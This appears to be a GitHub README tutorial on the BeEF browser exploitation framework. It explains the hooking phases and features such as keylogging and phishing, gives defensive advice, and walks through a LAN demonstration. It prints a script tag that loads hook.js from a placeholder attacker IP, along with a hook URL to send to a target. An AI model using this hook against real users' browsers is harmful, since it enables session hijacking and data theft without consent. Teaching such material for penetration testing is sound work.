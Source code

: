# BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## Browser Exploitation
Generally, an exploit is any code that utilizes vulnrabilities in an operating system or a piece of software to perform malicious actions. Browser or website exploitation takes advantage of a web browser vulnerability and breach a web browser security to alter a user's browser settings without their knowledge [3][3]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers inside a LAN network [4][4]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [4][4]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [5]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does BeEF Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface.

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [6]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
BeEF offers a variety set of features such as [6][6],[7][7]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [4][4]. 
## How To Protect Against BeEF?
To protect a browser against BeEF or any other browser explotation tool, a number  of steps should be taken:
* Continously update you browser:

When a vulnerability in a web browser is found, the vendor often releases a patch to fix the issue causing it. Hence, updating web browser provides protection against more recent exploits.
* Do not click on suspicious links or attachments:

Most social engineering techniques are often used by tricking targets to open URLs to suspicious websites. Hence, verifying that an attachment is legitimate is important before clicking it. There are multiple online tools to check if the recieved URL is safe or not such as [11]
* Install firewall and other security software: 

Firewalls act as a strong barrier between the internet and the web browser which detects, blocks suspicious websites, and catches threats before breaching web security 
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [8][8] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hook.png "Hook Page on Targeted Browser")
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hooked.png "Hooked Browser as Seen From the Attacker Panel")

Now, the attacker has access to the target's browser and is able to send many different commands from the commands window.
## Additional Resources
As mentioned before, the actual version of BeEF Framework works only over LAN Networks. Hence, some developers have developed tools that facilitate with BeEF to operate remotely over WAN such as [9][9],[10][10]


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.ericom.com/whatis/browser-exploit/
[4]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[5]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[6]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[7]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[8]: https://github.com/beefproject/beef
[9]: https://github.com/AzizKpln/Beef-Over-AWS
[10]: https://github.com/stormshadow07/BeeF-Over-Wan
[11]: https://search.google.com/search-console/welcome?action=inspect&utm_medium=referral&utm_campaign=9012289
